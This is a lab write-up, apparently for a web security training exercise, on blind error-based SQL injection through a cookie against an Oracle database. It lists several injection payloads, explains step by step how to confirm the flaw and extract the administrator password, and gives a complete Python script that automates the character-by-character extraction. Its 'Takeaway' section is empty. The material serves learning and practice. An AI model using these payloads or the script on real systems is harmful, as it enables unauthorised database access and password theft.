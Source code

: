 * Title: Blind SQL injection with conditional errors

* Goal: Log in as the administrator user.

* Vulnerability Location: The TrackingId section in the Cookie
 (For this lab I'm gonna use Burp Suite. Intercept the network and send it to repeater to follow this write-up)

* Payload Used:

  ``` ' || (SELECT '' FROM dual)||' ``` ,

  ``` ' ||(SELECT '' FROM users WHERE ROWNUM=1)-- ``` , 

  ``` ' ||(SELECT CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')-- ``` ,

  ``` ' ||(SELECT CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)=20)-- ``` ,

  ``` ' ||(SELECT CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND SUBSTR(password, 1, 1) = 's')-- ```

* Steps:

  1. Check if the input is injectable. Inject: ``` ' || (SELECT '' FROM dual)||' ```
       If we get 200 status code, the input is being processed by SQL. That means we can move forward.
       It's an Oracle database. Oracle requires a FROM clause in SELECT statements. And "dual" is a built-in table you can use if you don't know
       any tables in the database.

  2. Check if the users table exists. Inject: ``` ' ||(SELECT '' FROM users WHERE ROWNUM=1)-- ```  
       If the page still has the  status code 200, the users table exists and is accessible.
       The "WHERE ROWNUM=1" make sure that the table is returning only the first row. Otherwise it'll return
       muliple rows and it'll break our concatenation.

  3. Check if the administrator user exists. Inject: ``` ' ||(SELECT CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')-- ```
       Now what this payload does is, if the username 'administrator' is in users table, it'll return 500 internal server error.
       That is because it returns Zero Division Error since 1 is equal to 1. If there is no username called 'administrator',
       it returns 200-status code because it wouldn't bother to check the condition.

  4. Find the password length. Inject: ``` ' ||(SELECT CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND LENGTH(password)=20)-- ```  
       Try different values for LENGTH(password) until the page  has the 500 status code. That tells you the exact length of the password.

       **FYI: every password I encounter in this module has a password that is 20 characters long and it only include lowercase alphanumeric characters.**

  5. Extract the password one character at a time Inject: ``` ' ||(SELECT CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator' AND SUBSTR(password, 1, 1) < 'm')-- ```
       This checks if the first character is alphabetically less than 'm'. 

       Use binary search or loop through characters to find the correct one. Then move to the next character: ```SUBSTR(password, 2, 1)```, and try ```SUBSTR(password, 3, 1)```... 

       Repeat until you get the full password, which I personally think is painful and boring. And that's why we're are gonna automate this using a python script.

* Python Script

  ```
             # Import necessary modules for URL encoding, HTTP requests, and system I/O
              import urllib
              import urllib3
              import requests
              import sys
              
              # Suppress SSL certificate warnings (useful for testing against self-signed certs)
              urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
              
              def password_injector(url, base_tracking_id, session_id):
                  # Initialize an empty string to store the extracted password
                  password_extracted = ""
              
                  # Define the character set to brute-force each character of the password
                  charset = "0123456789abcdefghijklmnopqrstuvwxyz"
              
                  # Loop through each character position in the password (assuming max length = 20)
                  for i in range(1, 21):
                      # Loop through each character in the charset to test against the current position
                      for ch in charset:
                          # Construct an error-based SQL injection payload targeting Oracle
                          # If the character at position i matches `ch`, trigger TO_CHAR(1/0) to cause a 500 error
                          sql_payload = (
                              f"' ||(SELECT CASE WHEN(1=1) THEN TO_CHAR(1/0) ELSE '' END "
                              f"FROM users WHERE username='administrator' AND SUBSTR(password, {i}, 1) = '{ch}')-- "
                          )
              
                          # URL-encode the payload to safely inject it into the TrackingId cookie
                          sql_payload_encoded = urllib.parse.quote(sql_payload)
              
                          # Construct the cookies with the injected TrackingId and valid session ID
                          cookies = {
                              "TrackingId": base_tracking_id + sql_payload_encoded,
                              "session": session_id
                          }
              
                          # Send the HTTP GET request with the malicious cookie
                          response = requests.get(url, cookies=cookies, verify=False)
              
                          # If the server returns a 500 error, the injected condition was true
                          if response.status_code == 500:
                              # Append the correct character to the extracted password
                              password_extracted += ch
              
                              # Print the current progress (overwrite line)
                              sys.stdout.write('\r' + password_extracted)
                              sys.stdout.flush()
              
                              # Break out of the inner loop and move to the next character position
                              break
                          else:
                              # If no error, show the character being tested (for visual feedback)
                              sys.stdout.write('\r' + password_extracted + ch)
                              sys.stdout.flush()
              
                  # Final output after full password extraction
                  print(f"\n[+] Extracted Password: {password_extracted}")
              
              def main():
                  # Validate command-line arguments: script requires 3 inputs
                  if len(sys.argv) != 4:
                      print(f"[+] Usage: {sys.argv[0]} <url> TrackingId SessionId")
                      print(f"[+] Example: {sys.argv[0]} www.example.com nRoouTRuuq9Ate8w lwz0qgqnBKdlhlFOXFRxGVA9RHSxdIss")
                      sys.exit(-1)
              
                  # Parse command-line arguments
                  url = sys.argv[1]
                  tracking_id = sys.argv[2]
                  session_id = sys.argv[3]
              
                  # Start the extraction process
                  print("[+] Retrieving password...")
                  password_injector(url, tracking_id, session_id)
              
              # Entry point for the script
              if __name__ == "__main__":
                  main()

  ```


* Takeaway: 
